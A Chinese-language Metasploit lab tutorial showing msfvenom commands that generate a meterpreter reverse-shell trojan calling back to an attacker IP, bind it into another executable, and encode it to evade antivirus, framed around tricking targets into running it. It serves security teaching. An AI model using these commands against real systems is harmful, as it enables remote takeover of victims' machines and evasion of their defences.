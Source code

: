 # Metasploit 实现木马生成、捆绑及免杀  

## 一、实验简介  

在一次渗透测试的过程中，避免不了使用到社会工程学的方式来诱骗对方运行我们的木马或者点击我们准备好的恶意链接。木马的捆绑在社会工程学中是我们经常使用的手段，而为了躲避杀毒软件的查杀，我们又不得不对木马进行免杀处理。本次实验我们将学习如何通过Metasploit的msfvenom命令来生成木马、捆绑木马以及对木马进行免杀处理。  

## 实验环境  

Kali Linux  

## 知识点  

- msfvenom 如何生成木马  
- msfvenom 如何捆绑木马到常用软件  
- msfvenom 如何对木马进行编码免杀  

## 二、Metasploit介绍  

Metasploit是一个可用来发现、验证和利用漏洞的渗透测试平台，目前实验环境中Metasploit的版本是v4.12.23-dev包含了1577个exploits、907个auxiliary、272个post、455个payloads、39个encoders以及8个nops。  

其中exploits是漏洞利用模块(也叫渗透攻击模块)，auxiliary是辅助模块，post是后渗透攻击模块，payloads是攻击载荷也就是我们常说的shellcode，这里生成的木马其实就是payloads。  

在本次试验中我们主要使用的是msfpayload（攻击荷载生成器），msfencoder（编码器）的替代品msfvenom，msfvenom集成了前两者的全部功能，可以生成payload（本节所说的木马）以及对payload编码免杀和避免坏字符、捆绑木马等。在Kali Linux中默认安装了Metasploit framework 我们可以直接使用。  

## 三、实验环境启动  

实验楼中已经配置好了 Kali Linux虚拟机的实验环境，无需再次安装，这里我简单介绍一下如何启动实验楼环境中的两台虚拟机，详细介绍请查看Kali 实验环境介绍与使用。  

攻击机：Kali Linux 2.0 虚拟机，主机名是 kali，IP 地址为 192.168.122.101，默认用户名和密码为 root/toor。  

靶机：Metasploitable2 虚拟机，主机名是 target，IP 地址为 192.168.122.102，默认用户名和密码为 msfadmin/msfadmin。  

本次实验我们只用到 Kali linux 虚拟机。  

我们先来查看当前环境虚拟机的列表和状态：  

```
$ sudo virsh list --all
```

因环境中虚拟机太慢，这里采用 docker 容器。进入 kali linux 系统的方式如下：  

```
$ docker run -ti --network host 3f457 bash
```

## 四、生成木马  

在进行木马生成实验之前我们先来学习一下msfvenom命令的用法。在 Kali linux 下输入如下命令,可以看到msfvenom的命令行选项。  

```
$ cd /usr/bin
$ ./msfvenom -h
```

这里我整理了帮助信息，方便我们查看本次实验要使用的命令：  

```
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```

这里我们主要用到-p、-f和-o选项，下面我们分别来介绍一下它们的含义及用法。  

- -p选项：用来指定需要使用的payload,可以指定'-'或者stdin来自定义payload。如果不知道payload都包括哪些选项可以使用--payload-options列出payload的标准选项。

- -f选项：用来指定payload的输出格式，可以使用--help-formats来列出可选的格式。

- -o选项：用来指定输出的payload的保存路径，这里我们也可以采用重定向的方式来替代-o选项。  

在生成木马之前我们先使用-l选项来列出指定模块的所有可用资源(模块类型包括: payloads, encoders, nops, all)。这里我们指定payloads模块来查看都有哪些可用的木马。  

```
$ msfvenom -l payloads
```

根据上面各个选项的解释，现在我们就用选择好的payload来生成linux下的木马程序吧！输入命令如下：  

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.122.101 -f elf -o /root/payload.elf
```

命令执行完毕后木马就生成了，在上面的命令中我们使用-p选项指定了payload并设置了监听主机的ip地址，由于默认这个payload设置监听端口为4444,所以我们这里没有设置监听端口，需要更改监听端口可以设置LPORT参数。  

是不是很简单，这样我们就成功的生成了一个木马。Metasploit中还有很多Payload提供我们使用，可以根据实际情况进行选择。  

## 五、捆绑木马  

通常我们生成了木马之后，要运用社会工程学的攻击方式诱骗目标运行我们的木马程序，否则我们的木马只是玩具罢了，记住：“没人运行的木马不是好木马”。这里我们就来学习一下如何将木马捆绑到一个常用的应用程序上，这样我们就可以上传到某些地方来诱骗目标下载并运行我们的木马程序(记住不要拿这个来做坏事，我们要做个正直的白帽子)。  

捆绑木马我们还是使用上面提到的msfvenom命令，只不过这里我们要用到一个新的命令行选项-x。我们来看一下-x选项的用法及含义。  

- -x选项：允许我们指定一个自定义的可执行文件作为模板，也就是将木马捆绑到这个可执行文件上。  

知道了这个选项之后，聪明的同学可能知道该怎么做了，现在就跟着我一起实验一下吧！  

为了方便演示，我们就将上一节生成的木马当做常用应用程序来捆绑木马。  

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.122.101 -f elf -x /root/payload.elf -o /root/payload_backdoor.elf
```

还以为多麻烦的木马捆绑，就被Metasploit中的一个工具轻松解决了？没错，Metasploit就是这么强大！  

## 六、木马免杀  

虽然我们已经准备好了木马程序，并且也捆绑到了常用的应用程序上，但是现在杀毒软件泛滥，不经过免杀就算成功上传到目标主机，估计还没等运行就被杀掉了。这里用msfvenom生成木马同时对payload编码来实现木马的简单免杀。我们先来学习一下我们要用到的命令选项:  

- -e选项：用来指定要使用的编码器。  
- -i选项：用来指定对payload编码的次数。  

```
$ msfvenom -l encoders
```

这里我们挑选一个免杀效果比较好的编码器x86/shikata_ga_nai，进行编码：  

```
$ cd /usr/share
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.122.101 -e x86/shikata_ga_nai -i 5 -f elf -o /root/payload_encoder.elf
```

从图中我们可以看到完成了对木马的5次编码，这样木马基本上就可以躲避部分杀毒软件的查杀，其实还可以对木马程序进行多次编码，虽然可以提高木马的免杀几率，不过可能会导致木马程序不可用。当然要想免杀效果更好就需要使用Metasploit pro版本或者给木马加壳、修改木马的特征码等等，不过要想躲过全部杀毒软件的查杀则会有些难度，通常会针对某个杀毒软件进行免杀。由于其他方法不在本次实验讨论范围之内，所以这里就不再赘述。  







